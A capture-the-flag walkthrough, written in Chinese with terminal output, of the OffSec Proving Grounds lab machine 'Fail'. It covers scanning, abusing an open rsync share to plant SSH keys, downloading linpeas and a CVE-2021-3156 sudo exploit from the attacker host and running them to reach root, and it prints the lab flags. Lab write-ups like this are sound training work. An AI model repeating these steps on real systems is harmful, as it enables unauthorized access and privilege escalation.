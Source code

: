 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Fail
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.214.126 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.214.126:22
Open 192.168.214.126:873

PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
873/tcp open  rsync   syn-ack (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

搜尋873port exploit可以找到[873 - Pentesting Rsync](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync#manual-rsync-usage)
照著他用先`Enumerating Shared Folders`，可得到fox，接著把kali的`public(authorized_keys)`送上去
```
┌──(kali㉿kali)-[~/pgplay]
└─$ nmap -sV --script "rsync-list-modules" -p 873 192.168.214.126
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-09 21:42 EDT
Nmap scan report for 192.168.214.126
Host is up (0.075s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home

┌──(kali㉿kali)-[~/pgplay]
└─$ rsync -av /home/kali/.ssh/ rsync://fox@192.168.214.126/fox/.ssh/               
sending incremental file list
created directory /.ssh
./
authorized_keys
id_rsa
id_rsa.pub
known_hosts
known_hosts.old
```

可直接ssh，在`/home`資料夾可得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh fox@192.168.214.126

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
fox@fail:/home$ cat local.txt
842ed935009efc6b8f654b4371ef263f
```

用`linpeas.sh`
```
fox@fail:/tmp$ wget 192.168.45.211/linpeas.sh
fox@fail:/tmp$ chmod +x linpeas.sh
fox@fail:/tmp$ ./linpeas.sh

...
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
...
```

用[CVE-2021-3156](https://github.com/worawit/CVE-2021-3156?tab=readme-ov-file)得root，在/root得proof.txt
```
fox@fail:/tmp$ wget 192.168.45.211/exploit_nss.py
fox@fail:/tmp$ python3 exploit_nss.py
# whoami
root
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@fail:/root# cat proof.txt
4ec72d37fba8632f5323def55814ad7b
```